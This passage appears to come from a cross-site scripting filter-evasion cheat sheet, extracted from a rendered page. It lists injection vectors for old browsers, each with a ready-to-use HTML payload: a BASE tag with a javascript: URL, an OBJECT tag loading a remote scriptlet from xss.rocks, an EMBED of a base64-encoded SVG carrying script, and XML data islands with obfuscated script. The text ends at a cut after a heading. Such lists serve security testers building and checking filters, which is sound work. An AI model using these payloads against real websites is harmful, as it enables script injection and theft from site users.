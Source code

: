 ### BASE Tag

(Works on IE in safe mode) This attack needs the `//` to comment out the next characters so you won't get a JavaScript error and your XSS tag will render. Also, this relies on the fact that many websites uses dynamically placed images like `images/image.jpg` rather than full paths. If the path includes a leading forward slash like `/images/image.jpg`, you can remove one slash from this vector (as long as there are two to begin the comment this will work):

```html
<BASE HREF="javascript:alert('XSS');//">
```

### OBJECT Tag

If the system allows objects, you can also inject virus payloads that can infect the users, etc with the APPLET tag. The linked file is actually an HTML file that can contain your XSS:

```html
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### EMBED SVG Which Contains XSS Vector

This attack only works in Firefox:

```html
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

(Thanks to nEUrOO for this one)

### XML Data Island with CDATA Obfuscation

This XSS attack works only in IE:

```html
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

### Locally hosted XML with embedded JavaScript that is generated using an XML data island

This attack is nearly the same as above, but instead it refers to a locally hosted (on the same server) XML file that will hold your XSS vector. You can see the result here:

```html
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

### HTML+TIME in XML
